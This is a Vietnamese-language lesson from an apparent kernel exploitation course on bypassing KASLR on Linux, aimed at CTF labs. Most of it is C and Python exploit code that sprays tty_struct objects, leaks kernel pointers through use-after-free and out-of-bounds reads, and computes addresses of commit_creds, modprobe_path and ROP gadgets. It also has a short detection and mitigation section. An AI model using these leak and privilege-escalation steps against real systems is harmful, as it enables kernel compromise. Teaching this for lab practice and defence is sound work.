

> **Prerequisites**: [[03-kernel-security-mitigations|03. Mitigations]] · [[09-exploit-primitives|09. Exploit Primitives]] · [[10-heap-spray-objects|10. Heap Spray Objects]]
> **Objectives**:
> - Hiểu tại sao KASLR bypass là bước bắt buộc trong full-mitigation exploit
> - Khai thác các nguồn leak khác nhau: sysfs, /proc, object pointers, side-channel
> - Tính kernel_base từ một địa chỉ đã leak
> - Verify KASLR bypass trước khi bước vào ROP chain
>
---

## Điều kiện khai thác

> [!note] Điều kiện cần bypass KASLR
> - Kernel bật `CONFIG_RANDOMIZE_BASE=y` (hầu hết distro hiện đại)
> - Exploit cần biết địa chỉ cụ thể (gadget, function, data symbol)
> - Không có `nokaslr` trong kernel cmdline
>
> [!tip] Khi nào KHÔNG cần bypass KASLR
> - Exploit chỉ cần ghi vào **relative offset** từ một địa chỉ đã biết (rare)
> - Dùng kỹ thuật không cần địa chỉ tuyệt đối: `modprobe_path` overwrite sau khi có AAW, hoặc `cred` patching nếu đã biết địa chỉ `task_struct`
>
---

## Cơ chế tấn công

### Anatomy của KASLR

Khi boot với KASLR:

```text
kernel_text_base = 0xffffffff80000000 + random_offset
random_offset    ∈ [0, ~1GB] stepped by 2MB alignment
```

Sau khi leak một địa chỉ kernel, tính `kernel_base`:

```python
# Leak: tty_ops pointer tại địa chỉ leak_addr (trong kernel text)
# Từ vmlinux: nm vmlinux | grep " ptm_unix98_ops"
# → ffffffff82c3afc0  ← địa chỉ tĩnh (KASLR off)
PTMX_OPS_STATIC = 0xffffffff82c3afc0
TEXT_BASE_STATIC = 0xffffffff81000000  # _text khi không có KASLR

# Tính static offset của tty_ops so với _text:
OPS_OFFSET = PTMX_OPS_STATIC - TEXT_BASE_STATIC   # = 0x1c3afc0

# Sau leak:
kernel_base = leak_addr - OPS_OFFSET
```

### Nguồn Leak 1 — sysfs / /proc (không cần bug)

Một số thông tin kernel address bị lộ ra filesystems ảo:

```bash
# /proc/kallsyms — nếu được phép đọc
sudo cat /proc/kallsyms | grep " T _text"
# ffffffff98400000 T _text  ← kernel_base trực tiếp!

# /proc/kallsyms với unprivileged user:
cat /proc/kallsyms | grep " T _text"
# 0000000000000000 T _text  ← Bị ẩn (địa chỉ fake) nếu không có quyền

# kptr_restrict level:
cat /proc/sys/kernel/kptr_restrict
# 0 = tất cả addresses hiện; 1 = ẩn với non-root; 2 = luôn ẩn

# /sys/kernel/notes (nếu kptr_restrict cho phép):
xxd /sys/kernel/notes | head

# Dmesg (nếu được phép):
dmesg | grep "Loaded kernel"
```

**Trong CTF**: KASLR thường bật nhưng `/proc/kallsyms` thường readable vì challenge không harden đủ.

### Nguồn Leak 2 — Object Pointer Leak (cần bug nhỏ)

Đây là cách phổ biến nhất — dùng một read primitive nhỏ (OOB read vài bytes, spray + dump) để leak pointer của kernel object.

**a) tty_struct.ops leak** (qua UAF read):

```c
// Spray tty_struct vào slot freed
// Read qua dangling pointer
char buf[0x400];
uaf_read(buf, sizeof(buf));

if (*(uint32_t *)buf == 0x5401) {   // verify tty magic
    unsigned long ops_leak = *(unsigned long *)(buf + 0x18);
    // ops_leak = địa chỉ của ptmx_unix98_ops (trong kernel text)
    unsigned long kernel_base = ops_leak - PTMX_OPS_OFFSET;
    printf("[+] kernel_base = 0x%lx\n", kernel_base);
}
```

**b) msg_msg.m_list leak** (qua OOB read):

```c
// OOB read N + 8 bytes (đọc vào msg_msg header)
char oob_buf[VULN_SIZE + 0x10];
vuln_read(oob_buf, sizeof(oob_buf));

unsigned long heap_ptr = *(unsigned long *)(oob_buf + VULN_SIZE);
// heap_ptr = msg_msg.m_list.next → kernel heap address
// Kernel heap ở vùng 0xffff888000000000 (direct mapping)
// Từ heap addr, tính kernel_base phụ thuộc vào thêm leak (physmap offset)
```

**c) seq_operations pointers** (nếu chiếm được qua OOB/UAF):

```c
// Sau khi chiếm seq_operations slot:
unsigned long *fn_ptrs = (unsigned long *)captured_buf;
// fn_ptrs[0] = start() địa chỉ trong kernel text → kernel_base
unsigned long start_fn = fn_ptrs[0];
unsigned long kernel_base = start_fn - SEQ_STAT_START_OFFSET;
```

### Nguồn Leak 3 — Stack Leak qua /proc/PID/syscall

```bash
# Nếu có quyền đọc /proc/<pid>/syscall của process đang trong syscall:
cat /proc/self/syscall
# 1 0x1 0x7f... 0x100 0x0 0x0 0x0 0x7ffe...123456 0xffffffff81234567
#                                                   ↑ stack pointer trong kernel!
```

### Nguồn Leak 4 — physmap + KASLR tính chéo

Kernel heap luôn nằm trong **direct mapping** (`0xffff888000000000`). Từ heap address, có thể tính physical address, và từ đó — nếu biết physmap randomization — tính kernel text. Nhưng physmap ASLR (kernel >= 4.8) khiến đây phức tạp hơn.

**Cách đơn giản hơn**: Spray nhiều kernel objects, tìm pointers đến vùng kernel text (không phải heap) → một pointer đó là kernel text address.

### Tính kernel_base từ nhiều loại leak

```python
# Từ vmlinux (built với KASLR off hoặc debug symbols):
# 1. nm vmlinux | grep " T symbol_name" → lấy static_addr
# 2. Hoặc: objdump -d vmlinux | grep "symbol_name:"

# Tính offset:
TEXT_BASE = 0xffffffff81000000   # _text khi KASLR off (đọc từ vmlinux)
SYMBOL_STATIC = <giá trị từ nm vmlinux>
SYMBOL_OFFSET = SYMBOL_STATIC - TEXT_BASE

# Sau khi leak symbol_leaked_addr:
kernel_base = symbol_leaked_addr - SYMBOL_OFFSET

# Verify: kernel_base phải aligned 0x200000 (2MB)
assert kernel_base % 0x200000 == 0, "KASLR alignment mismatch!"
assert kernel_base & 0xffff000000000000 == 0xffff000000000000, "Not a kernel addr!"
```

---

## Quy trình tấn công

**Môi trường**: Holstein v3 style — UAF, kernel 5.15, KASLR on.

**Bước 1 — Trigger UAF và spray tty_struct**

```c
// (Xem Lesson 06 cho full setup)
alloc();
release();  // UAF

// Spray tty_struct
for (int i = 0; i < 100; i++)
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
```

**Bước 2 — Đọc qua dangling pointer và verify**

```c
char buf[0x400];
uaf_read(buf, sizeof(buf));

if (*(uint32_t *)buf != 0x5401) {
    printf("[-] Spray miss, retry...\n");
    // Cleanup và retry
    exit(1);
}
printf("[+] Spray hit!\n");
```

> **Expected output**: `[+] Spray hit!`
>
**Bước 3 — Extract và validate leak**

```c
unsigned long ops_leak = *(unsigned long *)(buf + 0x18);
printf("[*] ops leak: 0x%lx\n", ops_leak);

// Validate: phải trong kernel text range
if ((ops_leak & 0xffffffff00000000) != 0xffffffff00000000) {
    printf("[-] Leak invalid (not kernel text addr)\n");
    exit(1);
}

// Tính kernel_base
// Lấy PTMX_OPS_OFFSET từ: nm vmlinux | grep "ptm_unix98_ops"
#define PTMX_OPS_OFFSET  0x1c3afc0   // thay đổi theo kernel version!
unsigned long kernel_base = ops_leak - PTMX_OPS_OFFSET;

// Verify alignment
if (kernel_base % 0x200000 != 0) {
    printf("[-] kernel_base not 2MB aligned: 0x%lx\n", kernel_base);
    exit(1);
}
printf("[+] kernel_base = 0x%lx\n", kernel_base);
```

> **Expected output**: `[+] kernel_base = 0xffffffff<random>000000`
>
**Bước 4 — Tính tất cả địa chỉ cần thiết**

```c
// Từ vmlinux symbols (nm vmlinux | grep " T symbol"):
#define COMMIT_CREDS_OFFSET         0x0a1420
#define PREPARE_KERNEL_CRED_OFFSET  0x0a14c0
#define MODPROBE_PATH_OFFSET        0x1638c40  // data symbol
#define POP_RDI_OFFSET              0x0135738  // gadget

unsigned long commit_creds        = kernel_base + COMMIT_CREDS_OFFSET;
unsigned long prepare_kernel_cred = kernel_base + PREPARE_KERNEL_CRED_OFFSET;
unsigned long modprobe_path       = kernel_base + MODPROBE_PATH_OFFSET;
unsigned long pop_rdi             = kernel_base + POP_RDI_OFFSET;

printf("[+] commit_creds        = 0x%lx\n", commit_creds);
printf("[+] prepare_kernel_cred = 0x%lx\n", prepare_kernel_cred);
printf("[+] modprobe_path       = 0x%lx\n", modprobe_path);
```

---

## Biến thể & Bypass

### Khi spray miss — tăng số lượng và retry

```c
// Retry loop với cleanup
for (int attempt = 0; attempt < MAX_ATTEMPTS; attempt++) {
    // Cleanup spray fds từ lần trước
    for (int i = 0; i < SPRAY_N; i++) close(spray[i]);

    // Re-trigger UAF
    alloc(); release();

    // Re-spray với số lượng nhiều hơn
    for (int i = 0; i < SPRAY_N * 2; i++)
        spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);

    uaf_read(buf, sizeof(buf));
    if (*(uint32_t *)buf == 0x5401) break;
}
```

### Tìm symbol offset cho kernel version cụ thể

```bash
# Trong QEMU guest hoặc trên target:
grep "ptm_unix98_ops\|commit_creds\|prepare_kernel_cred" /proc/kallsyms
# → lấy địa chỉ thực

# Trên host với vmlinux:
nm vmlinux | grep "ptm_unix98_ops\|commit_creds"

# Với kernel có BTF:
bpftool btf dump file /sys/kernel/btf/vmlinux | grep offset
```

---

## Cây quyết định



---

## Command Cheatsheet

**Tìm symbol offsets từ vmlinux**

```bash
# Text symbols
nm vmlinux | grep -E " T (commit_creds|prepare_kernel_cred|_text)"
# Data symbols
nm vmlinux | grep -E " D (modprobe_path)"
# Gadgets
ROPgadget --binary vmlinux --rop | grep "pop rdi ; ret"
ropper -f vmlinux --search "pop rdi; ret"
```

**Tính offset trong Python**

```python
TEXT_BASE    = 0xffffffff81000000  # _text khi KASLR off (từ nm vmlinux)
SYMBOL_ADDR  = 0xffffffff<...>     # địa chỉ symbol từ nm vmlinux
OFFSET       = SYMBOL_ADDR - TEXT_BASE

# Sau leak:
kernel_base  = leaked_addr - OFFSET
assert kernel_base % 0x200000 == 0
```

**Verify leak**

```c
// Sau khi tính kernel_base:
unsigned long check_addr = kernel_base + COMMIT_CREDS_OFFSET;
// Đọc 4 bytes đầu của commit_creds qua AAR (nếu có)
// So sánh với bytes đã biết từ disassembly vmlinux
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày.

**Drill 1 — Tính offset từ vmlinux**
Mục tiêu: Từ vmlinux, tính PTMX_OPS_OFFSET trong 2 phút.

```bash
nm vmlinux | grep "_text\|ptm_unix98_ops"
# Lấy hai địa chỉ, trừ nhau → offset
```

Luyện cho đến khi: symbol offset calculation là phản xạ.

**Drill 2 — Validate leak**
Mục tiêu: Viết validation code kiểm tra kernel_base alignment và range.

```c
assert(kernel_base % 0x200000 == 0);
assert((kernel_base >> 32) == 0xffffffff);
```

Luyện cho đến khi: validation pattern gõ ra không cần notes.

**Drill 3 — Full leak chain**
Mục tiêu: Từ UAF setup đến kernel_base trong dưới 10 phút.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **kptr_restrict**: Đặt `kernel.kptr_restrict = 2` để ẩn tất cả kernel addresses trong logs và `/proc`
> **dmesg_restrict**: Đặt `kernel.dmesg_restrict = 1` để ẩn dmesg với non-root
>
> **Anomaly**: Nhiều `open("/dev/ptmx")` kết hợp với ioctl unusual → spray indicator
>
> [!note] Mitigation
> - `echo 2 > /proc/sys/kernel/kptr_restrict` → ẩn kernel pointers
> - `echo 1 > /proc/sys/kernel/dmesg_restrict` → ẩn dmesg
> - `CONFIG_KALLSYMS_ALL=n` → giảm exposure của kallsyms
> - Seccomp profiles trong containers để block `open("/dev/ptmx")`
>
---

## Lab Thực hành

| Platform | Challenge | Tại sao phù hợp |
|----------|-----------|----------------|
| pawnyable.cafe | **Holstein v3** | KASLR bypass qua tty_struct ops leak |
| pawnyable.cafe | **Fleckvieh** | KASLR bypass qua msg_msg OOB |
| CTF | **kernel-rop** (pwnable.tw) | Cần full KASLR bypass trước ROP |
| HTB | **Hospital** | Real target, KASLR on |

---

## Field Manual Entry

> [!abstract] KASLR Bypass — Quick Reference
> **Điều kiện**: Cần địa chỉ tuyệt đối của kernel symbol; KASLR bật
> **Leak sources**: tty_struct.ops (offset 0x18); msg_msg.m_list.next; seq_operations fn ptrs
> **Tính base**: `kernel_base = leaked_addr - SYMBOL_OFFSET` (offset từ `nm vmlinux`)
> **Verify**: `assert kernel_base % 0x200000 == 0` và `kernel_base >> 32 == 0xffffffff`
> **Tìm offset**: `nm vmlinux | grep "T symbol_name"` rồi trừ địa chỉ `_text`
> **Ref**: [[11-kaslr-bypass|11. KASLR Bypass & Kernel Address Leaks]]
>